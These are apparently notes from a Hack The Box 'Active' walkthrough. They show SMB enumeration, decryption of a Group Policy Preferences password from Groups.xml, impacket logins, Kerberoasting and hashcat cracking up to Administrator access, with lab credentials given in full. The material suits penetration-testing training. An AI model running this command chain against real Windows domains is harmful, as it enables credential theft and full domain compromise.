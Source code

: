 ### DNS
```
nslookup
dnsrecon -d 10.129.151.62 -r 10.0.0.0/8
```

### Nmap
found the domain name `active.htb` and add it to `/etc/hosts`
```
locate -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb

nmap --script safe -p 445 active.htb
nmap --script smb-enum-services -d -p 445 active.htb
```

### SMB
```bash
smbmap -H active.htb
smbmap -R Replication -H active.htb --depth 10
smbmap -R Replication -H active.htb -A Groups.xml -q --depth 10
```
or just download it all with `smbclient` recurse download. Mentioned in Wiki.

### Group Policy Preferences (GPP) Passsowrds
When a new GPP is created, an `.xml` file is created in the SYSVOL share, which is also cached locally on endpoints that the Group Policy applies to. These files can include thosed used to:

* Map drives (drives.xml)
* Create local users
* Create printer config files (printers.xml)
* Creating scheduled tasks (scheduledtasks.xml)
* Changing local admin passwords

The `cpassword` attribute value is AES-256 bit encrypted and Microsoft published the AES private key.

### Decrypt Group Policy Preferences (GPP) from `Groups.xml`
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

### Carefully running impacket
```
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -all
or
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -all -dc-ip active.htb
or
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -all -dc-ip 10.129.151.62
```

### psexec.py or evil-winrm
won't work
```
python3 /usr/share/doc/python3-impacket/examples/psexec.py active.htb/SVC_TGS:'GPPstillStandingStrong2k18'@active.htb
or use wmiexec.py
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py active.htb/administrator:'Ticketmaster1968'@10.129.148.91

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
```
Because it's not an admin user

### smbmap again to get user.txt
```
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H 10.129.151.62
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H 10.129.151.62 -R Users --depth 10
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H 10.129.151.62 -R Users --depth 10 -A user.txt
smbclient \\\\active.htb\\Users -U=SVC_TGS%'GPPstillStandingStrong2k18'
```

### Kerberoasting
https://0xdf.gitlab.io/2018/12/08/htb-active.html#kerberoasting
```
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
or
python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
or
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

### Crack 13100
```
hashcat -a 0 -m 13100 hash /usr/share/wordlists/rockyou.txt
Ticketmaster1968
```

### smbclient as administrator
```
smbclient //active.htb/Users -U=Administrator%'Ticketmaster1968'
```
